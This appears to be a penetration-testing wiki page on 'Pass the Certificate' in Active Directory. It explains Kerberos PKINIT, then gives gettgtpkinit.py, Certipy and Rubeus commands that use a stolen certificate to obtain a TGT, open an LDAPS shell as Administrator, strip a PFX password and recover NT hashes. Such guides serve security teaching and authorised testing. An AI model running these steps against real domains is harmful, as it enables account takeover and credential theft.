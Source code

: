 # Pass the Certificate

## Theory

The Kerberos authentication protocol works with tickets in order to grant access. An ST (Service Ticket) can be obtained by presenting a TGT (Ticket Granting Ticket). That prior TGT can only be obtained by validating a first step named "pre-authentication" (except if that requirement is explicitly removed for some accounts, making them vulnerable to [ASREProast](asreproast.md)). The pre-authentication can be validated symmetrically (with a DES, RC4, AES128 or AES256 key) or asymmetrically (with certificates). The asymmetrical way of pre-authenticating is called PKINIT.

Pass the Certificate is the fancy name given to the pre-authentication operation relying on a certificate (i.e. key pair) to pass in order to obtain a TGT. This operation is often conducted along [shadow credentials](shadow-credentials.md), [AD CS escalation](../ad-cs/) and [UnPAC-the-hash attacks](unpac-the-hash.md).

{% hint style="info" %}
Keep in mind a certificate in itself cannot be used for authentication without the knowledge of the private key. A certificate is signed for a specific public key, that was generated along with a private key, which should be used when relying on a certificate for authentication.

The "certificate + private key" pair is usually used in the following manner

* PEM certificate + PEM private key
* PFX certificate export (which contains the private key) + PFX password (which protects the PFX certificate export)
{% endhint %}

## Practice

{% tabs %}
{% tab title="UNIX-like" %}
From UNIX-like systems, [Dirk-jan](https://twitter.com/\_dirkjan)'s [gettgtpkinit.py](https://github.com/dirkjanm/PKINITtools/blob/master/gettgtpkinit.py) from [PKINITtools](https://github.com/dirkjanm/PKINITtools/) tool to request a TGT (Ticket Granting Ticket) for the target object. That tool supports the use of the certificate in multiple forms.

```python
# PFX certificate (file) + password (string, optionnal)
gettgtpkinit.py -cert-pfx "PATH_TO_PFX_CERT" -pfx-pass "CERT_PASSWORD" "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"

# Base64-encoded PFX certificate (string) (password can be set)
gettgtpkinit.py -pfx-base64 $(cat "PATH_TO_B64_PFX_CERT") "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"

# PEM certificate (file) + PEM private key (file)
gettgtpkinit.py -cert-pem "PATH_TO_PEM_CERT" -key-pem "PATH_TO_PEM_KEY" "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"
```

Alternatively, [Certipy](https://github.com/ly4k/Certipy) (Python) can be used for the same purpose.

```bash
certipy auth -pfx "PATH_TO_PFX_CERT" -dc-ip 'dc-ip' -username 'user' -domain 'domain'
```

{% hint style="info" %}
If you have this error:**`KDC_ERR_PADATA_TYPE_NOSUPP`**when requesting PKINIT, it may be an indication that your targeted KDCs do not have certificates with the necessary EKU (Extended Key Usages). \
More specificly, If a KDC must support smart card logon, its certificate must have the `Smart Card Logon` EKU\
\
**You can use your certificate to logon on LDAPS via Schannel**
{% endhint %}

Authentication via Schannel is supported by [certipy-ad](https://github.com/ly4k/Certipy):

```bash
certipy auth -pfx administrator.pfx -username 'administrator' -domain 'contoso.local' -ldap-shell -ldap-scheme ldaps -dc-ip $DC_IP
[*] Connecting to 'ldaps://10.10.10.10:636'
[*] Authenticated to '10.10.10.10' as: u:CONTOSO.LOCAL\Administrator
Type help for list of commands

# help
```

Certipy's commands don't support PFXs with password. The following command can be used to "unprotect" a PFX file.

```bash
certipy cert -export -pfx "PATH_TO_PFX_CERT" -password "CERT_PASSWORD" -out "unprotected.pfx"
```

The ticket obtained can then be used to

* authenticate with [pass-the-cache](ptc.md)
* conduct an [UnPAC-the-hash](unpac-the-hash.md) attack. This can be done with [getnthash.py](https://github.com/dirkjanm/PKINITtools/blob/master/getnthash.py) from [PKINITtools](https://github.com/dirkjanm/PKINITtools/).
* obtain access to the account's SPN with an S4U2Self. This can be done with [gets4uticket.py](https://github.com/dirkjanm/PKINITtools/blob/master/gets4uticket.py) from [PKINITtools](https://github.com/dirkjanm/PKINITtools).

{% hint style="info" %}
When using Certipy for Pass-the-Certificate, it automatically does [UnPAC-the-hash](unpac-the-hash.md) to recover the account's NT hash, in addition to saving the TGT obtained.
{% endhint %}
{% endtab %}

{% tab title="Windows" %}
From Windows systems, [Rubeus](https://github.com/GhostPack/Rubeus) (C#) can be used to request a TGT (Ticket Granting Ticket) for the target object from a base64-encoded PFX certificate export (with an optional password).

```bash
Rubeus.exe asktgt /user:"TARGET_SAMNAME" /certificate:"BASE64_CERTIFICATE" /password:"CERTIFICATE_PASSWORD" /domain:"FQDN_DOMAIN" /dc:"DOMAIN_CONTROLLER" /show
```

{% hint style="info" %}
PEM certificates can be exported to a PFX format with openssl. Rubeus doesn't handle PEM certificates.

```bash
openssl pkcs12 -in "cert.pem" -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out "cert.pfx"
```
{% endhint %}

{% hint style="info" %}
Certipy uses DER encryption. To generate a PFX for Rubeus, [openssl](https://www.openssl.org/) can be used.

```bash
openssl rsa -inform DER -in key.key -out key-pem.key
openssl x509 -inform DER -in cert.crt -out cert.pem -outform PEM
openssl pkcs12 -in cert.pem -inkey key-pem.key -export -out cert.pfx
```
{% endhint %}

The ticket obtained can then be used to

* authenticate with [pass-the-ticket](ptt.md)
* conduct an [UnPAC-the-hash](unpac-the-hash.md) attack (add the `/getcredentials` flag to Rubeus's asktgt command)
* obtain access to the account's SPN with an S4U2Self.
{% endtab %}
{% endtabs %}
